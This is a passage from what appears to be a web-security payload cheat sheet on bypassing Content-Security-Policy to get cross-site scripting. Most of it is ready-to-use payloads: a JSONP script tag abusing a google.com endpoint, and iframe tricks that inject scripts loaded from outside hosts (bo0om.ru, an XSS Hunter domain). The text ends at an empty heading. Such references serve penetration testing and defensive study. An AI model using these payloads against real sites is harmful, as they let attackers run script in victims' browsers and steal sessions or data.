 ## CSP Bypass

Check the CSP on
[https://csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com) and
the post :
[How to use Google’s CSP Evaluator to bypass CSP](https://websecblog.com/vulns/google-csp-evaluator/)

### Bypass CSP using JSONP from Google (Trick by [@apfeifer27](https://twitter.com/apfeifer27))

//google.com/complete/search?client=chrome&jsonp=alert(1);

```js
<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>"
```

More JSONP endpoints available in
[/Intruders/jsonp_endpoint.txt](Intruders/jsonp_endpoint.txt)

### Bypass CSP by [lab.wallarm.com](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa)

Works for CSP like
`Content-Security-Policy: default-src 'self' 'unsafe-inline';`,
[POC here](http://hsts.pro/csp.php?xss=f=document.createElement%28"iframe"%29;f.id="pwn";f.src="/robots.txt";f.onload=%28%29=>%7Bx=document.createElement%28%27script%27%29;x.src=%27//bo0om.ru/csp.js%27;pwn.contentWindow.document.body.appendChild%28x%29%7D;document.body.appendChild%28f%29;)

```js
script = document.createElement("script");
script.src = "//bo0om.ru/csp.js";
window.frames[0].document.head.appendChild(script);
```

### Bypass CSP by [Rhynorater](https://gist.github.com/Rhynorater/311cf3981fda8303d65c27316e69209f)

```js
// CSP Bypass with Inline and Eval
d = document;
f = d.createElement("iframe");
f.src = d.querySelector('link[href*=".css"]').href;
d.body.append(f);
s = d.createElement("script");
s.src = "https://[YOUR_XSSHUNTER_USERNAME].xss.ht";
setTimeout(function () {
  f.contentWindow.document.head.append(s);
}, 1000);
```

### Bypass CSP by [@akita_zen](https://twitter.com/akita_zen)
